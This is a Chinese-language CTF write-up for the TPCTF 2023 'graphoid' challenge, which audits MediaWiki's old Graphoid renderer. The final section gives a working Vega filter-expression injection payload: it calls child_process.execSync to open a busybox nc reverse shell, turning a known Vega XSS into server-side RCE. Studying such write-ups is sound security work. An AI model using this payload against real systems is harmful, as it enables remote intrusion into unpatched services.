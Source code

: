 ```yaml
---
title: TPCTF 2023 graphoid writeup
date: 2023-11-27 10:29:48
categories:
- CTF
tags:
- nodejs
- vega


toc: true
---
```


这个题的思路并不是很明确，给出了一个 MediaWiki 已经废弃的项目：
- [Extension:Graph/Graphoid - MediaWiki](https://m.mediawiki.org/wiki/Extension:Graph/Graphoid)

Graphoid 用于对用户提供的输入图像定义文件进行渲染，返回图像内容。

由于项目较老，可以考虑使用 dependency-check 先扫一遍历史漏洞。
```bash
dependency-check -s . -o report -f HTML
```
得到报告之后可以看出历史漏洞很多，但之后结合代码审计的结果看并没有什么用。

项目使用 nodejs 编写，项目需要看的 js 代码并不多：
```bash
└─$ tree  | grep js
├── app.js
│   ├── api-util.js
│   ├── swagger-ui.js
│   ├── util.js
│   ├── vega1.js
│   ├── vega2.js
│   └── vega.js
├── npm-shrinkwrap.json
├── package.json
│   ├── graphoid-v1.js
│   ├── graphoid-v2.js
│   ├── info.js
│   └── root.js
│   └── sqlToFiles.js
├── server.js
    │   │   ├── app.js
    │   │   └── spec.js
    │   │   └── info.js
    │       └── graph.js
    ├── index.js
        ├── assert.js
        ├── logStream.js
        └── server.js
```

主体功能及对应的文件如下：
1. 路由功能：
   1. graphoid-v1.js：v1 版本的接口
   2. graphoid-v2.js：v2 版本的接口
2. 渲染功能
   1. vega.js：根据输入的版本信息，决定调用 vega1.js 还是 vega2.js 进行渲染。
   2. vega1.js
   3. vega2.js
3. swagger 文档：访问 /?doc
4. 系统信息：访问 /?spec

主体代码似乎没什么洞，即使 graphoid-v1 中有一个 merge 操作，也并不能造成 prototype pollution。

代码中似乎对 underscore 也进行了调用，underscore 有一个代码执行漏洞：[Arbitrary Code Injection in org.webjars.npm:underscore - CVE-2021-23358 - Snyk](https://security.snyk.io/vuln/SNYK-JAVA-ORGWEBJARSNPM-1081503)，但应该得结合原型链污染才行。

考虑到主体功能还是通过 vega 进行渲染，因此可以去 vega 的仓库看看 issue。找到了几个 xss。其中有一个比较有趣：
- https://github.com/vega/vega/issues/3018

这个 issue 的 payload 曾在 hxp2020 hackme 这道题中用于触发 XSS。

由于 Graphoid 中的 vega 比较老，应该是 3.2.1 版本，可以关注 vega2 的 payload：

![20231127212739](https://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/20231127212739.png)

这个 payload 在 https://vega.github.io/vega-editor/?mode=vega 中是可以正常触发 xss 的。

这个 payload 只能是 XSS 吗？Graphoid 中的 vaga 可是运行在服务端，既然该漏洞能够通过 eval 执行执行任意 JavaScript 代码，那就是 RCE 了。

测试这个 poc 后确实可以执行代码，稍作更改即可反弹 shell。（平台更新了一次附件，第一次的附件搭建出来的环境，png 接口也可以触发，且环境中有 curl 可以带出来。更新后的附件搭建出来的环境，png 接口总会报错，但 svg 接口可以正常触发，另外环境没有 curl 了，但是有 busybox 可以 nc 反弹 shell。

v2 接口发送如下的 payload。
```json
{
  "data": [
    {
      "name": "data",
      "values": [{}],
      "transform": [
        {"type": "filter", "test": "(0//1/)-'\\\n,console.log(process.mainModule.require(\"child_process\").execSync(\"busybox nc xxxx 9001 -e ash\")),console.log(222))))//'"}
      ]
    }
  ]
}
```






